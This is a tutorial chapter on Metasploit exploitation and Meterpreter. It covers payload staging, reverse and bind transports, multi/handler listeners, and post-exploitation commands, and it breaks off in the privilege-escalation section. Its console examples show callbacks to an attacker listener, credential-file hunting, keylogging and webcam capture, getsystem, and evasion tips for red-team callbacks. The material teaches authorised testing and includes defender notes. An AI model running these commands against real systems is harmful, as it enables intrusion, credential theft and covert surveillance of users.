





**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 255 min

This is Chapter 4 of the Exploitation notebook and the second of the four-part Metasploit arc. Chapter 3 built the foundation — what the framework is under the hood, its architecture, the module taxonomy, the datastore, the PostgreSQL-backed database, and how to drive `msfconsole` fluently. It stopped just short of the moment that makes Metasploit worth using: pulling the trigger and catching a session. This chapter is that moment, in full detail.

Here you will learn how an exploit module is really structured and what happens step by step when you type `exploit`; how the payload system is genuinely built out of three pieces (singles, stagers, stages) and why that split exists; how to choose between reverse and bind, staged and stageless, TCP, HTTP and HTTPS payloads based on the network you are actually facing; how to run a standalone `multi/handler` listener so you can catch payloads delivered by any means; and then — the centrepiece — **Meterpreter**: what it actually is as an in-memory agent, how it talks to your console, and the command set that turns a single foothold into full control of a host, credential loot and a route deeper into the network.

Everything in this chapter changes state on machines that are not the console you are typing into. It opens real shells, escalates real privileges and reads real secrets out of memory. All of it assumes an explicit, written, scoped engagement or hardware you own. Build the lab in Part 13 on your own hypervisor, point payloads only at VMs you control, and read what each module and command does before you run it. Offensive capability without authorisation is a crime, not a demonstration.

---

## Part 1: The Exploit Module, Dissected

In Chapter 3 you learned that an *exploit* is the module type that takes advantage of a specific flaw to run code of your choosing on a target. What you did not yet see is the internal machinery that turns `use exploit/...` followed by `exploit` into a shell. Understanding that machinery is the difference between an operator who knows *why* a shot missed and one who just re-runs it hoping for a different result.

Every exploit module is a Ruby class that subclasses `Msf::Exploit::Remote` (or `::Local`, for local privilege-escalation exploits). It advertises metadata — name, description, author, references (CVE, EDB-ID), disclosure date, platform, architecture, a **rank**, and one or more **targets**. It exposes options through the datastore (`RHOSTS`, `RPORT`, `SSL`, `TARGETURI`, and exploit-specific ones), and it implements two methods that matter to you as an operator:

- **`check`** — a non-destructive probe that tries to determine whether the target is vulnerable *without* actually exploiting it. Not every module implements it; when it does, run it first.
- **`exploit`** — the payload-delivery routine: it builds the malicious input, sends it, and (for a remote exploit) expects the payload to execute on the target and call back.

The single most important mental model is this: **an exploit module's only job is to get your payload to execute.** The exploit is the *delivery mechanism*; the payload is the *code that runs*. Metasploit's power comes from decoupling the two — the same `windows/x64/meterpreter/reverse_tcp` payload can be delivered by an SMB exploit, an RDP exploit, a browser exploit or a malicious document, because the exploit and payload are separate, composable modules. Chapter 1 introduced this exploit-vs-payload distinction conceptually; here you see it operationally.

**The exploit lifecycle**, step by step, when you type `exploit`:



Notice step **F**: before the module even sends its malicious input, the framework spins up a *handler* (a listener) for whatever payload you selected. This is why order matters — if you set the payload after firing, or forget `LHOST`, the callback has nowhere to land. The most common beginner failure ("Exploit completed, but no session was created") almost always traces back to this: the payload ran on the target but could not reach your handler, or no payload was configured at all.

**Ranking recap (from Chapter 3), applied.** Every exploit carries a reliability rank from `manual` up to `excellent`. In practice you filter for `great`/`excellent` first because those are least likely to crash the service. A `normal`-ranked memory-corruption exploit against a production host is how you turn an engagement into an outage. `check` and rank together are your two pre-flight safety instruments.

---

## Part 2: Targets — One Exploit, Many Victims

A single vulnerability rarely exists in exactly one build. The same bug might affect Windows 7 SP1 x86, Windows 10 21H2 x64, and Server 2019, each with different memory offsets, gadget addresses or service versions. Metasploit models this with the **target** concept: a numbered list of specific configurations the module knows how to exploit, each carrying its own internal parameters (return addresses, offsets, ROP chains) that the module author baked in.

You inspect and set targets like this:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show targets

Exploit targets:
=================
    Id  Name
    --  ----
=>  0   Automatic Target
    1   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf6 exploit(windows/smb/ms17_010_eternalblue) > set TARGET 0
TARGET => 0
```

- **`show targets`** lists them. `=>` marks the currently selected one.
- **`set TARGET <id>`** picks one (note: it's `TARGET`, singular, an index — not `TARGETS`).
- **Automatic Target (0)** asks the module to fingerprint the host and choose. Automatic is convenient but not infallible; if fingerprinting fails or the banner lies, an automatic pick can select wrong offsets and crash the target. When you *know* the exact OS from your enumeration, set the explicit target rather than trusting automatic.

**Why targets matter for payload architecture (a preview of Part 3):** the target also constrains which *payloads* are compatible. A target defined as `x64` will only offer x64 payloads in `show payloads`; picking the wrong architecture is another classic reason a shot fails silently — the shellcode is simply the wrong machine code for the CPU it landed on.

**Payload/target compatibility table:**

| Target platform/arch | Compatible payload family | Example payload |
|---|---|---|
| Windows x64 | `windows/x64/...` | `windows/x64/meterpreter/reverse_tcp` |
| Windows x86 | `windows/...` | `windows/meterpreter/reverse_tcp` |
| Linux x64 | `linux/x64/...` | `linux/x64/meterpreter/reverse_tcp` |
| Unix (cmd) | `cmd/unix/...` | `cmd/unix/reverse_bash` |
| Java (cross-platform) | `java/...` | `java/meterpreter/reverse_tcp` |
| PHP web app | `php/...` | `php/meterpreter/reverse_tcp` |
| Python | `python/...` | `python/meterpreter/reverse_tcp` |

When you run `show payloads` *after* selecting a module and target, Metasploit filters this list automatically to only the compatible ones — a huge convenience you lose the moment you generate payloads standalone with `msfvenom` (Chapter 5), where you must get the platform/arch right yourself.

---

## Part 3: The Payload System — Singles, Stagers and Stages

This is the concept that most people use for years without truly understanding, and getting it clear will make every later decision obvious. A Metasploit payload name like `windows/x64/meterpreter/reverse_tcp` is not one monolithic blob. The payload system has **three building blocks**:

- **Single (stageless)** — a completely self-contained payload. Everything needed runs in one shot, no further download. Example: `windows/x64/shell_reverse_tcp` opens a reverse command shell in a single, larger payload. Naming clue: an **underscore** between the shell type and the transport (`shell_reverse_tcp`) usually signals a *single/stageless* payload.
- **Stager** — a tiny piece of code whose only job is to set up a network connection back to you and pull down the second, larger piece. It has to be small because the exploit's buffer is often tiny. Examples of stagers: `reverse_tcp`, `bind_tcp`, `reverse_https`.
- **Stage** — the large payload that the stager downloads and executes in memory once the connection is established. Meterpreter itself is a stage. Naming clue: a **slash** before the transport (`meterpreter/reverse_tcp`) signals a *staged* payload — read it as "the meterpreter stage, delivered by the reverse_tcp stager".

So the same capability comes in two shapes:

| Payload | Shape | What travels first | What travels second |
|---|---|---|---|
| `windows/x64/meterpreter/reverse_tcp` | **Staged** | small stager | Meterpreter stage (pulled over the socket) |
| `windows/x64/meterpreter_reverse_tcp` | **Stageless** | the whole Meterpreter in one blob | nothing further |
| `windows/x64/shell/reverse_tcp` | **Staged** | small stager | cmd.exe shell stage |
| `windows/x64/shell_reverse_tcp` | **Stageless** | whole reverse shell in one blob | nothing further |

Read the punctuation: `meterpreter/reverse_tcp` = staged, `meterpreter_reverse_tcp` = stageless. This one detail resolves most confusion.

**Why staging exists.** Many exploits give you only a few hundred bytes of space to inject code. Meterpreter is hundreds of kilobytes. You physically cannot fit Meterpreter into that hole. The stager solves this: inject the tiny stager, let it phone home, and stream the big stage over the socket into memory. The stage never touches disk — it is written straight into the process's memory and executed, which is a large part of why Meterpreter historically evaded disk-based antivirus.



**Trade-offs — staged vs stageless:**

| Dimension | Staged (`.../reverse_tcp`) | Stageless (`..._reverse_tcp`) |
|---|---|---|
| Initial payload size | Tiny (fits small buffers) | Large |
| Network round-trips | Two-phase (stager then stage) | One-phase |
| Reliability on flaky links | Stage transfer can fail mid-download | More robust, nothing to download |
| AV/EDR footprint | Stage in memory (historically stealthier) | Whole payload on disk/in buffer at once |
| Handler must stay up for | Both the callback *and* the stage transfer | Just the callback |
| Use when | Buffer is small; you control a stable link | Buffer is large enough; link is unreliable; standalone file |

**Operator rule of thumb:** for in-framework exploitation over a decent link, staged Meterpreter (`.../meterpreter/reverse_tcp`) is the default. For a payload you drop as a standalone file and detonate later (a macro, an executable, a webshell), stageless is often more reliable because there is no second-stage download to fail. You will lean on stageless heavily in Chapter 5 (`msfvenom`).

---

## Part 4: Reverse vs Bind, and the Transport Question

Chapter 1 introduced reverse vs bind shells conceptually. Now tie it to payload selection, because the choice is dictated by firewalls and NAT, not preference.

- **Reverse payload** (`reverse_tcp`, `reverse_https`) — the *target* connects *out* to *you*. You run a listener; the target dials home. This wins almost every real engagement because outbound connections from a victim to the internet are usually allowed, while inbound connections to the victim are usually blocked by perimeter firewalls and NAT. `LHOST`/`LPORT` describe *your* listener.
- **Bind payload** (`bind_tcp`) — the *target* opens a listening port and waits; *you* connect *in* to it. This only works when you can reach an inbound port on the target — e.g. you're already on the same LAN, or there's no firewall between you. `RHOST`/`LPORT` describe the *target's* listening socket. Bind shells are the right call when the target has no route back to you (egress fully filtered) but you can still reach it directly.



**The transport (the last word in the name)** decides *how* the callback travels, and this is a stealth/evasion decision:

| Transport | How it looks on the wire | Survives which controls | Notes |
|---|---|---|---|
| `reverse_tcp` | Raw TCP to `LPORT` | Basic egress if the port is open | Cleartext, easiest to fingerprint; default for labs |
| `reverse_http` | HTTP requests (GET/POST) | HTTP proxies, some egress filters | Blends with web traffic; can traverse a proxy with `HttpProxy` set |
| `reverse_https` | TLS-wrapped HTTP | TLS-inspecting-less egress, proxies | Encrypted, hardest to inspect; the go-to for stealthy reverse callbacks |
| `bind_tcp` | Listener on target | Only when inbound to target is reachable | No egress needed at all |
| `reverse_tcp_rc4` | RC4-obfuscated TCP | Naive signature IDS | Obfuscation, not real crypto |

**HTTP/S transports have a killer feature: session resilience.** `reverse_http` and `reverse_https` are *stateless* at the transport layer — Meterpreter polls over HTTP, so if the TCP connection drops, the session can survive and reconnect. A `reverse_tcp` session dies the instant the socket breaks. On unstable Wi-Fi, over a proxy, or across a slow VPN, HTTPS Meterpreter is dramatically more reliable. It also lets you set a `SessionCommunicationTimeout` and `SessionExpirationTimeout` so a beacon that loses contact will keep trying rather than dying immediately.

**Red team relevance:** on a real engagement you almost always reach for `reverse_https` with a legitimate-looking `LPORT` (443), a matching `HandlerSSLCert`, and often a domain-fronted or redirector-fronted `LHOST`, precisely because raw `reverse_tcp` on an odd port is a bright red flag for any monitored egress. **Blue team relevance:** the same fact tells defenders where to look — long-lived TLS sessions to a bare IP with no SNI/cert reputation, regular-interval beacons, and JA3 hashes matching known Meterpreter stagers.

---

## Part 5: The Handler — Catching a Payload with multi/handler

An exploit module starts a handler for you automatically. But you constantly need a **standalone listener** — to catch a payload delivered by a phishing document, a `msfvenom` executable, a webshell, or a manual exploit run outside Metasploit. That standalone listener is the `exploit/multi/handler` module. It is the single most-used "exploit" in the framework, and it exploits nothing at all — it just listens.

`multi/handler` teaches the whole configuration pattern in miniature:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_https
PAYLOAD => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 10.10.14.7
LHOST => 10.10.14.7
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Started HTTPS reverse handler on https://10.10.14.7:443
```

Command-by-command, every flag explained:

- **`set PAYLOAD ...`** — the handler must match the payload you generated/delivered *exactly*. If you built a `reverse_https` payload but set a `reverse_tcp` handler, the callback arrives in a language the listener doesn't speak and the session never forms. Payload, `LHOST`, and `LPORT` must be identical on both sides.
- **`set LHOST` / `set LPORT`** — the address/port the target was told to call. `LHOST` is *your* IP as the target sees it (on HTB/THM, your `tun0` VPN IP; on a LAN, your interface IP; behind NAT, the forwarded public IP).
- **`set ExitOnSession false`** — keep the handler alive after the first session so it can catch *multiple* callbacks (e.g. you phished ten people). Without it, the handler stops after one catch.
- **`exploit -j`** — the `-j` flag runs the handler as a **background job** so your console stays free. `jobs -l` lists running jobs; `jobs -k <id>` kills one. Without `-j`, the handler blocks your console until a session lands or you Ctrl-C.
- **`exploit -z`** — a related flag: catch the session but do *not* auto-interact with it; drop it straight to the background. Useful when catching many sessions.

**Persisting the handler across restarts.** A resource script (Chapter 3) makes this a one-liner. Save `handler.rc`:

```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 10.10.14.7
set LPORT 443
set ExitOnSession false
exploit -j
```

Then launch with `msfconsole -q -r handler.rc` and your listener is up before you've finished your coffee. **This is the exact workflow you'll pair with `msfvenom` in Chapter 5:** generate a standalone payload, start the matching `multi/handler`, deliver the file, catch the session.

---

## Part 6: Meterpreter — What It Actually Is

Everything so far has been build-up to the payload that makes Metasploit special. **Meterpreter** (Meta-Interpreter) is an advanced, dynamically extensible payload that runs **entirely in memory** and gives you a rich command interface far beyond a raw shell. Understanding what it *is* — not just what it does — separates operators who can troubleshoot it from those who cargo-cult commands.

**Meterpreter is, concretely:**

- **An in-memory DLL** (on Windows) that is **reflectively loaded** — injected straight into a running process's memory and executed *without ever being written to disk*. There is no `meterpreter.exe` sitting in a folder for antivirus to scan. This is the single biggest reason it historically evaded signature AV. (Modern EDR watches memory and behaviour, so "in memory" is no longer synonymous with "invisible" — more in Part 11.)
- **Injected into the exploited process's address space** — it runs inside, say, `spoolsv.exe` or a browser process, sharing that process's identity and privileges. It does not spawn an obvious new process by default, which keeps it off naive process-listing detections.
- **A stage** (Part 3) delivered by a stager, or a stageless single. Either way, once running it speaks a custom protocol back to your console.
- **Extensible at runtime** — the core is small; extra capabilities load on demand as **extensions** (stdapi, priv, kiwi, python, etc.), streamed over the existing encrypted channel. You don't re-exploit to gain a new capability; you `load` it.

**How it talks: the TLV protocol.** Meterpreter communicates with your console using a **Type-Length-Value (TLV)** packet protocol, and (in modern versions) the whole channel is **AES-encrypted** end-to-end regardless of transport — even `reverse_tcp` Meterpreter traffic is now encrypted at the Meterpreter layer, not just when you pick `reverse_https`. Each command and result is a structured TLV message, which is why Meterpreter can do things a dumb shell can't: transfer files with integrity, tunnel sockets, enumerate structured data, and multiplex several channels (an interactive shell, a running process, a port-forward) over one connection.



**The extension model in practice:**

| Extension | Loaded by | Provides |
|---|---|---|
| `core` | always | `migrate`, `load`, `channel`, session transport control |
| `stdapi` | auto on most sessions | filesystem, networking, process, system, UI commands (`ls`, `download`, `ps`, `sysinfo`) |
| `priv` | auto on Windows | `hashdump`, timestomp, privilege ops |
| `kiwi` | `load kiwi` | in-memory Mimikatz — credential extraction |
| `python` | `load python` | run Python on the target in-memory |
| `powershell` | `load powershell` | run PowerShell without spawning powershell.exe visibly |
| `incognito` | `load incognito` | token impersonation for lateral movement |

**Why this matters operationally:** if a command like `hashdump` or `ps` returns "unknown command", the usual cause is that its extension isn't loaded (or you're on a *shell*, not Meterpreter, or on the wrong platform). Knowing the extension model turns that error from a mystery into a one-line fix (`load stdapi`).

---

## Part 7: The Meterpreter Command Set — Core, Filesystem, System

Once you have a Meterpreter prompt (`meterpreter >`), you have a categorised command set. Type `help` to see it grouped; `help <command>` for details on one. Below is the working subset, taught by category, with every flag that matters.

### Core / session commands

| Command | What it does | Key flags |
|---|---|---|
| `background` (Ctrl-Z) | Send the session to the background, back to `msf6 >` | — |
| `sessions` | (from msf prompt) list/interact with sessions | `-i <id>`, `-l`, `-k` |
| `guid` | Show the session's unique GUID | — |
| `help` | List commands, grouped by extension | — |
| `load <ext>` | Load an extension (`kiwi`, `python`, `incognito`) | — |
| `migrate <pid>` | Move Meterpreter into another process | `-N <name>`, `-P <pid>` |
| `channel` | List/interact with active channels | `-l`, `-i <id>` |
| `transport` | Add/list/change the session's transport at runtime | `add`, `list`, `next` |
| `exit` / `quit` | Terminate the session | — |

### Filesystem commands (stdapi)

These mirror a Unix shell but operate on the *target*:

```
meterpreter > pwd
C:\Windows\system32
meterpreter > ls
meterpreter > cd C:\\Users\\jsmith\\Desktop
meterpreter > cat secrets.txt
meterpreter > download secrets.txt /root/loot/secrets.txt
[*] Downloaded 1.42 KiB of 1.42 KiB (100.0%): secrets.txt -> /root/loot/secrets.txt
meterpreter > upload /root/tools/winPEAS.exe C:\\Windows\\Temp\\wp.exe
meterpreter > search -f *.kdbx -d C:\\Users
meterpreter > edit notes.txt
meterpreter > rm C:\\Windows\\Temp\\wp.exe
```

- **`download <remote> <local>`** — pull a file back. Add `-r` to recurse a directory.
- **`upload <local> <remote>`** — push a file to the target. Note Windows paths need escaped backslashes (`C:\\Windows\\Temp`) or forward slashes.
- **`search -f <pattern> -d <dir>`** — hunt for files by name across the filesystem. `-f` is the filename glob, `-d` the starting directory. Invaluable for finding `web.config`, `*.kdbx`, `unattend.xml`, `id_rsa`.
- **`cat` / `edit`** — read/edit files in place; `edit` opens a vi-like buffer in memory.

### System commands (stdapi)

```
meterpreter > sysinfo
Computer        : WEB01
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : CORP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > getuid
Server username: CORP\svc_web
meterpreter > getpid
Current pid: 4820
meterpreter > ps
meterpreter > shell
Process 6112 created.
Channel 3 created.
Microsoft Windows [Version 10.0.17763.1]
C:\Windows\system32> whoami
corp\svc_web
C:\Windows\system32> exit
meterpreter > getenv USERNAME COMPUTERNAME
```

- **`sysinfo`** — OS, build, architecture, domain membership. First thing to run: it tells you the exact target for privesc research and whether you're domain-joined.
- **`getuid`** — the account Meterpreter is running as. `NT AUTHORITY\SYSTEM` means you already own the box; a service or user account means privesc is the next objective.
- **`getpid` / `ps`** — your current process ID and the full process list (with PID, PPID, arch, user, path). `ps` is how you pick a migration target.
- **`shell`** — drop from Meterpreter into a native `cmd.exe`/`/bin/sh` on the target when you need a real shell (e.g. to run a tool that expects one). `exit` returns you to Meterpreter. On Windows, `shell` then `powershell` gets you PowerShell; better, `load powershell` + `powershell_shell` keeps it in-memory.
- **`getenv <VARS>`** — read environment variables (paths, proxy config, domain hints).

### Networking commands (stdapi)

```
meterpreter > ipconfig
meterpreter > ifconfig
meterpreter > arp
meterpreter > netstat -ano
meterpreter > route
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.20.15
meterpreter > resolve dc01.corp.local
```

`ipconfig`/`ifconfig`, `arp`, `netstat` and `route` are your reconnaissance of the *internal* network from the foothold — they reveal additional subnets and hosts you couldn't see from outside. That intel drives the pivoting in Part 10.

### UI / interaction commands

| Command | Use | Notes |
|---|---|---|
| `screenshot` | Capture the target's desktop | Saved to your loot dir |
| `screenshare` | Live view of the desktop | Bandwidth-heavy |
| `keyscan_start` / `keyscan_dump` / `keyscan_stop` | Keylogger | Captures keystrokes in the session's desktop |
| `webcam_list` / `webcam_snap` | Enumerate/snap webcams | Physical-access demo value |
| `idletime` | How long since user input | Tells you if someone's at the keyboard |
| `record_mic` | Record from the microphone | Duration with `-d` seconds |

These are the "wow" commands in demos, but treat them as invasive: on an authorised engagement, capturing a user's screen or keystrokes can sweep up personal data outside scope. **Only use what your rules of engagement explicitly permit**, and note it in your log.

---

## Part 8: Session Management — Backgrounding, Multiple Sessions, Upgrading Shells

A session is Metasploit's handle on a compromised host. You will routinely juggle several. The commands are simple; the discipline is in not losing track of which session is which.

**From inside a session**, `background` (or Ctrl-Z) returns you to the `msf6 >` prompt while leaving the session alive:

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```

**From the msf prompt**, `sessions` is your control panel:

```
msf6 > sessions -l

Active sessions
===============
  Id  Name  Type                     Information                     Connection
  --  ----  ----                     -----------                     ----------
  1         meterpreter x64/windows  CORP\svc_web @ WEB01            10.10.14.7:443 -> 10.10.20.5:49771
  2         shell cmd/unix           unknown                          10.10.14.7:4444 -> 10.10.20.8:38112

msf6 > sessions -i 1        # interact with session 1
msf6 > sessions -k 2        # kill session 2
msf6 > sessions -K          # kill ALL sessions
msf6 > sessions -c "whoami" # run a command on every shell session
msf6 > sessions -C "getuid" # run a meterpreter command on all meterpreter sessions
```

| Flag | Effect |
|---|---|
| `-l` | List active sessions |
| `-i <id>` | Interact with a session |
| `-k <id>` | Kill one session |
| `-K` | Kill every session |
| `-c <cmd>` | Run a shell command across all shell sessions |
| `-C <cmd>` | Run a Meterpreter command across all Meterpreter sessions |
| `-u <id>` | **Upgrade** a raw shell session to Meterpreter |
| `-n <name>` | Name a session so you remember what it is |

**Upgrading a plain shell to Meterpreter** is one of the highest-value moves you'll make. Public exploits and reverse-shell one-liners often hand you a dumb `cmd`/`/bin/sh` — no `download`, no `hashdump`, no pivoting. `sessions -u` re-exploits that shell with a Meterpreter payload:

```
msf6 > sessions -u 2
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]
[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.7:4433
[*] Sending stage (200774 bytes) to 10.10.20.8
[*] Meterpreter session 3 opened (10.10.14.7:4433 -> 10.10.20.8:38120)
```

Under the hood this runs the `post/multi/manage/shell_to_meterpreter` module, which detects the OS/arch, generates a matching Meterpreter payload, uploads/executes it, and catches the new session. You now have session 3 (Meterpreter) alongside the original session 2 (shell). **This is the standard bridge** between "I caught a shell from a `msfvenom` payload / a scripted exploit" and "I have full Meterpreter tooling."

**Naming discipline:** on a multi-host engagement, `sessions -n web01-svc_web -i 1` labels sessions so `sessions -l` reads like an inventory rather than a pile of anonymous IDs. Losing track of which SYSTEM shell is on which production box is how mistakes happen.

---

## Part 9: Post-Exploitation with Meterpreter — Privilege, Migration, Credentials

A foothold is not the objective; it's the beginning. Post-exploitation is where you turn a low-privileged process into domain-relevant loot. This part covers the core Windows post-ex primitives Meterpreter gives you. (The next chapter's arc goes deeper into dedicated post modules and pivoting automation; here we cover the built-ins you use on every box.)

### Migration — surviving and blending in

```
meterpreter > getpid
Current pid: 4820
meterpreter > ps       # find a stable, same-or-higher-integrity process
meterpreter > migrate -N explorer.exe
[*] Migrating from 4820 to 6604...
[*] Migration completed successfully.
```

**Why migrate.** Your Meterpreter lives inside the exploited process. If that process is a browser tab the user closes, or a service that crashes because you exploited it, your session dies with it. `migrate` moves Meterpreter into a more stable process — `explorer.exe` (survives as long as the user is logged in) or a service running at the privilege you want. Migration also changes which process defenders see network activity coming from.

- **`migrate <pid>`** — move into a specific PID (from `ps`).
- **`migrate -N <name>`** — move into the first process matching a name (convenient).
- **Architecture must match:** an x86 Meterpreter cannot migrate into an x64 process and vice-versa without a matching build. Mismatches fail loudly. Prefer x64 payloads on x64 hosts from the start.

### Privilege escalation — getsystem and beyond

```
meterpreter > getuid
Server username: CORP\svc_web
meterpreter > getprivs           # what privileges does this token hold?
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

